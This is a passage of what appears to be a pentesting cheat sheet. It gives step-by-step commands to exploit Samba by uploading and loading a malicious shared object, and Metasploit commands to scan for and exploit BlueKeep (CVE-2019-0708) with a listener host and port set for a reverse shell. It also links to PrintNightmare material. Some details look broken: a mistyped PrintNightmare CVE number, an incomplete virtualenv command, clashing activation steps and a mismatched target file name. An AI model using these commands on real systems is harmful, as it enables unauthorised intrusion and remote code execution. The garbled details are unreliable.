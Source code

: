 Get real share path on the target's filesystem:

```
$ rpcclient -U'%' -c'netsharegetinfo ShareName' 10.10.13.37
path:    /home/snovvcrash/sharename
```

Upload `pwn.so` to target and then run the exploit:

```
$ pip install virtualenv
$ virtualenv -p /usr/bin/python2.7
$ source venv/bin/activate.sh
$ pip install -r requirements.txt
$ . venv/bin/activate
$ ./exploit.py -t 10.10.13.37 -e pwn.so -s ShareName -r /home/snovvcrash/sharename/pwn.so -u anonymous -p ''
```




## BlueKeep

**CVE-2019-0708**

Check:

```
msf > use auxiliary/scanner/rdp/cve_2019_0708_bluekeep
msf > set RHOSTS file:rdp.txt
msf > set THREADS 25
msf > run
```

Exploit:

```
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf > set RHOSTS file:rdp.txt.txt
msf > set LHOST eth0
msf > set LPORT 1337
msf > run
```




## PrintNightmare

**CVE-2021-16751, CVE-2021-34527**

* [https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)
* [https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/](https://pentestlab.blog/2021/08/17/domain-escalation-printnightmare/)
* [https://itm4n.github.io/printnightmare-exploitation/](https://itm4n.github.io/printnightmare-exploitation/)
